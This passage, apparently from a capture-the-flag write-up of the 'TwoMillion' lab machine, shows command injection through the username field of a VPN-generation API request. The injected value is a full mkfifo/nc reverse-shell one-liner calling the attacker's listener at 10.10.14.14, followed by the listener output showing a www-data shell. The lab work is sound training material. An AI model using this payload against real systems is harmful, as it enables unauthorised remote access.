 ```http
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 0
```

Unluckily, it doesn't return anything. Let's comment out the latter unseen potential command line using `#`.

![](attachments/twomillion_14.png)

It's working! Now I can run a command remotely.
With this, I can open a reverse shell for sure.

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/home
Connection: keep-alive
Cookie: PHPSESSID=1t2kauenpvurljdusta8kbu5dt
Content-Type: application/json
Upgrade-Insecure-Requests: 1
Content-Length: 31

{"username": "bokchee; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 9000 >/tmp/f #"  }
```

Then, let's open a listener and take the reponse.

```shell
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000               
listening on [any] 9000 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.221] 38766
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```
